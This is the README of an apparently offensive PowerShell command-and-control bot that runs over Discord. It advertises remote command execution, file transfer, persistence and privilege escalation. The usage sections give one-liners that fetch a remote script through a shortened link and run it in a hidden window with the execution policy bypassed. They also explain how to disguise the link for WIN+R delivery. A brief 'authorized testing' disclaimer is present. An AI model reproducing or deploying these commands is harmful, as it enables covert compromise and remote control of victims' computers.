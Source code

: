# pwshdc-c2
A PowerShell Discord bot for remote command execution, in development

**Disclaimer**: This project should be used for authorized testing or educational purposes only.

## Features
- **Multiple Connections at the same time**
- **Execute PowerShell commands remotely**
- **File upload/download**
- **Add/Remove Persistence**
- **Privilege escalation**

## Usage
In cmd or powershell
```powershell
.\pwshdc.ps1 -tk 'bot-token' 'channel-id-from-server'
```

Or in a multi-step process for WIN+R execution

```powershell
powershell -NoP -Ep Bypass -Command "iwr -UseBasicParsing https://is.gd/zVzeNh -OutFile $env:TEMP\winservice.ps1; powershell -NoP -Ep Bypass -File $env:TEMP\winservice.ps1 -tk 'YOUR-TOKEN' -cid 'CHANNEL-ID'"
```

Put the Script from above in (https://raw-paste.vercel.app/), copy raw file link. Then paste the link into https://is.gd/ to make it shorter.

Then put this into WIN+R: 
```powershell
powershell -nop -ep bypass -W H -c "iwr https://YOUR-SHORTEN-LINK/ | iex"
```
